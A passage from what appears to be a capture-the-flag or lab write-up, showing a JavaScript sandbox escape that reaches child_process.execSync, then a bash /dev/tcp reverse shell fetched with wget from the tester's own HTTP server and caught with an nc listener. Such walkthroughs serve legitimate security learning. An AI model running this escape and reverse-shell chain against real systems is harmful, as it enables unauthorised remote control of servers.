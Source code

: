 ```Js
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('<command>'); // replace <command> with your OS command
}`

// This line executes the JavaScript code stored in the code variable within the virtual machine created earlier.
// The result of vm.run(code) is logged to the console.
console.log(vm.run(code));
```

Create a file over your system naming **shell.sh** ```bash -i >& /dev/tcp/<tun0 IP address>/<port> 0>&1```

Now create a python3 server to upload the file to the server.

```bash 
python3 -m http.server ```

Update the `.execSync('<command>')` update the `<command>`

```bash
wget http://<tun0 IP>:8000/shell.sh```
This will upload/Download the file to the server

Now run TCP listener 

```bash
nc -lvnp <port>
```


Update the `.execSync('<command>')` update the `<command>`
```bash
bash shell.sh
``` 

This will run the execute the reverse shell 
![Initial Foothold](initiaFoothold.png)
